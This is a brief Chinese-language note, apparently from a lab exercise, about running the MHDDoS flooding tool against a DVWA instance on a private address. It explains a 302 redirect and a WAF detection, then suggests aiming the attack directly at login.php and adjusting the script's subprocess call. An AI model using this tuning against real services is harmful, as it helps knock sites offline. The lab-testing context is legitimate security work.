因为DVWA是需要登录的，尚未携带有效 Session/Cookie 访问根目录，dvwa会强制给出`302 Found`响应，重定向到`/login.php`

而MHDDoS向`http://172.31.132.2:8080/login.php`发送`POST`请求时，防火墙的Web应用防护(WAF)模块介入，检测到有人通过非加密的HTTP协议，向一个登录界面提交POST表单。

**改进思路**
1. 绕过302重定向：`TARGET_URL = "http://172.31.132.2:8080/login.php"`，直接攻击`login.php`
2. 脚本中的`subprocess.run(..., check=False, shell=True)`修改为`subprocess.run(cmd, shell=True, check=False, cwd=MHDDOS_PATH, capture_output=False)`